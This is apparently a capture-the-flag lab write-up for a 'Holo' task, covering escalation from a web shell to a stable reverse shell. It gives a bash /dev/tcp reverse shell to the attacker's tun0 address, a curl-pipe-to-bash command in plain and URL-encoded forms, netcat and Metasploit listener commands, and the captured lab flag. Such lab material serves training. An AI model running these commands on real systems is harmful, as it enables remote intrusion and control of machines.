 
Now that you have escaped the container and have RCE on the host, you need to create a reverse shell and obtain a way to gain a stable shell onto the box.  

There are several ways to obtain a reverse shell on a box once you have RCE. Outlined below are a few of the most common methods used.  

- netcat
- bash
- python
- perl

For more information about various payloads and reverse shells, you can use check out these two resources. [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings). [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

In this task, we will be covering how to use a basic bash reverse shell along with URL encoding to drop a script directly into bash. Using URL encoding to our advantage, we can ease much pain when executing a payload as often special characters such as `&, ', !, ;, ?` will cause serious issues.  

To begin, we will create a simple payload by placing the below code into a `.sh` file.

`#!/bin/bash`   
`bash -i >& /dev/tcp/tun0ip/53 0>&1`

- The first line will declare that we are using the bash scripting language. 
- The second line is the payload itself. 

For more information about this payload, check out this explain shell, [https://explainshell.com/explain?cmd=bash+-i+>%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0>%261](https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F127.0.0.1%2F53+0%3E%261).  

Now that you have the payload ready to go, you can start up a local web server on your attacking machine using either _http.server_ or _updog_ or _php_. You can find example usage for all three below.  

- `python3 -m http.server 80`
- `updog`
- `php -S 0.0.0.0:80`

Once you have a server started hosting the file, we can compile a command to execute the file. Find the command below.  

Unencoded command: `curl http://10.x.x.x:80/shellscript.sh|bash &`

As we have already mentioned, special characters can cause issues within URLs. To combat this, we can utilize URL encoding on any special characters. Find the encoded command below.

Encoded command: `curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26`

The above command is entirely ready to go. You will only need to change the IP address and the file name within the command; this does not require you to change any of the URL encoding present.

You can now start a listener using Netcat or Metasploit to catch your reverse shell once executed. Find commands below to start listeners.  

- `nc -lvnp 53`
or
- `use exploit/multi/handler`

Now that you have the full payload and execution command ready, you can use it and the RCE to gain a shell onto the box. Find the full command below.  

Command used: `curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.x.x.x%3A80%2Fshellscript.sh%7Cbash%20%26'`


---

# Your job

- Create a `shellscript.sh` file with the following code:
	`#!/bin/bash`
	`bash -i >& /dev/tcp/<tun0 IP>/53 0>&1`

- Start up a local web server in the `shellscript.sh` directory on your attacking machine.
	`python3 -m http.server 80`

- On your attacking machine, start a listener using Netcat .
	`nc -lvnp 53`

- On the Reverse Shell you already have opened, run the following code:
	`curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F<tun0 IP>%3A80%2Fshellscript.sh%7Cbash%20%26'`
	![[Task 19 - Going out with a SHEBANG!-20240919140944870.webp]]
- Stabilize the shell.
```
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	export TERM=xterm
```


> [!INFO]
You have shell onto  L-SRV01.


---

## Flag on L-SRV01

- On the Reverse Shell go to `www-data@ip-10-200-95-33:/var/www$` and run:
	`cat user.txt`

	HOLO{3792d7d80c4dcabb8a533afddf06f666}

- Submit the user flag on Task 4, question 2.

**Next step:** [[Task 20 - Call me Mario, because I got all the bits]]
